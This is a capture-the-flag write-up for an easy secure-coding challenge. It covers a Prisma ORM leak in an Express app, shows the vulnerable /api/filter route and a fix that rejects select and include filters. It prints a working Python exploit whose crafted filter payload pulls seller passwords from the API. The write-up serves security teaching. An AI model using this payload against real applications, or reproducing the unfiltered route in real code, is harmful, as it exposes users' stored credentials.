

  <font size='20'>Arcane Auctions</font>

5<sup>th</sup> February 2025

Prepared By: Xclow3n

Challenge Author(s): Xclow3n

Difficulty: <font color='green'>Easy</font>

<br><br>


# Synopsis
The challenge is a secure coding challenge targetting prisma ORM leak vulnerablity.

## Description
The challenge involves an internal express web server. The player is presented with 3 services available: 
- express web app running on port 3000
- SMB services on both ports 445
- Checker service on both port 1337

The SMB service allows the user to easily enumerate the source code and make necessary changes on the server to ensure that the server works properly. 

## Skills Required
- Javascript code understanding.
- Basic understanding of ORM

## Skills Learned
- Avoiding ORM leak bugs

# Enumeration

## Analyzing the source code and the report

Let us begin looking at the exploit file that is provided to us:

```python

#!/usr/bin/env python3
import requests
import sys

BASE_URL = "http://127.0.0.1"

def exploit_filter_password_leak():
    print("Attempting to exploit the filter endpoint to leak seller passwords...")
    payload = {
        "filter": {
            "select": {
                "seller": {
                    "select": {
                        "password": True
                    }
                }
            }
        }
    }
    
    try:
        response = requests.post(f"{BASE_URL}/api/filter", json=payload)
    except Exception as e:
        print("Request failed:", e)
    
    if response.status_code == 200:
        data = response.json()
        if isinstance(data, list):
            vulnerable = False
            for idx, item in enumerate(data):
                seller = item.get("seller")
                if seller and "password" in seller:
                    print(f"[VULNERABLE] Item {idx} - Exposed seller password: {seller['password']}")
                    vulnerable = True
            if not vulnerable:
                print("No seller passwords were exposed in the response.")
        else:
            print("Unexpected response format:", data)
    else:
        print(f"Request failed with status code {response.status_code}: {response.text}")

if __name__ == "__main__":
    exploit_filter_password_leak()
```

We can here it simply extract password using ORM filtering.

Looking at the `/api/filter` route defined in `routes.js`

```javascript
router.post('/api/filter', async (req, res) => {
  try {
    const filter = req.body.filter || {};
    const items = await prisma.item.findMany(filter);
    res.json(items);
  } catch (error) {
    console.error(error);
    res.status(500).json({ error: 'Filtering error' });
  }
});
```

This line of code makes it vulnerable

```javascript
const filter = req.body.filter || {};
```

There are many ways to actually fix it, the easiest and simple ones are: 
- not allowing `include` and `select` filters
- allow whitelist filters only

```javascript
router.post('/api/filter', async (req, res) => {
  try {
    let filter = req.body.filter || {};

    // Reject any filter that includes select or include properties.
    if (filter.select || filter.include) {
      return res.status(400).json({ error: 'Invalid filter: select/include are not allowed' });
    }

    // const allowedKeys = ['where', 'orderBy', 'skip', 'take', 'cursor'];
    // filter = allowedKeys.reduce((acc, key) => {
    //   if (filter[key] !== undefined) {
    //     acc[key] = filter[key];
    //   }
    //   return acc;
    // }, {});

    const items = await prisma.item.findMany(filter);
    res.json(items);
  } catch (error) {
    console.error(error);
    res.status(500).json({ error: 'Filtering error' });
  }
});
```

Making changes to smb share and running the checker script.



We get the flag
 

